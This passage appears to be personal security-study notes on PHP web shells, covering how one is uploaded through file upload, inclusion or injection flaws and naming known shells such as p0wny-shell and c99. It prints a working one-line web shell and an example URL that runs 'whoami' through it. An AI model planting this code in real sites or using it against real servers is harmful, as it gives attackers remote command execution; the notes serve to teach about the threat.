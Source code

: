 	<?php
	if (isset($_GET['cmd'])) {
	system($_GET['cmd']);
	}
	?>
	```
	- This code would be saved in a .php file, like `webshell.php` (or something less blatant :P )
	- It would then be uploaded onto the web-server by the attacker via exploiting vulnerabilities like:
		- Unrestricted File Upload
		- File Inclusion
		- Command Injection
		- and others
		- Or by gaining unauthorised access to the web-server somehow
	- After the webshell is placed on to the web-server, it can be accessed through the URL where it could be found on the web-server. 
		- ie `http://buggered.com/uploads/webshell.php`
	- The attacker will need to provide a GET method and the value for the variable `cmd` (which should contain the command the attacker wants to execute). 
	- For example, if we wanted to run a `whoami` :
		- `http://buggered.com/uploads/shell.php?cmd=whoami`
			- This will execute `whoami` on the web-server and display it on the web-browser
- Existing Web Shells Online:
	- p0wny-shell
		- Minimalistic single-file PHP web shell that allows remote code execution
	- b374k shell
		- A more feature-rich PHP web shell with file management and command execution, amongst other functionalities
	- c99 shell
		- A well-known and robust PHP web shell with extensive functionality
		- 